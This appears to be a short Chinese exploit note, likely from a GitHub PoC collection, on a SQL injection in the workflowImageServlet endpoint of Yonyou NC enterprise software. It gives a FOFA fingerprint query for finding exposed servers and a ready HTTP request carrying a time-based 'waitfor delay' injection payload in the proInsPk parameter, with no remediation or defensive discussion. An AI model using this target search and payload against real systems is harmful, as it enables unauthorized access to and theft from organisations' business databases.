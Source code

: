 ## 用友NC-workflowImageServlet接口存在sql注入漏洞

## fofa
```
icon_hash="1085941792"  
```

## poc
```
GET /portal/pt/servlet/workflowImageServlet/doPost?pageId=login&wfpk=1&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image](../../images/558b09c4-0b31-4025-aa2c-61f492690a6c.png)
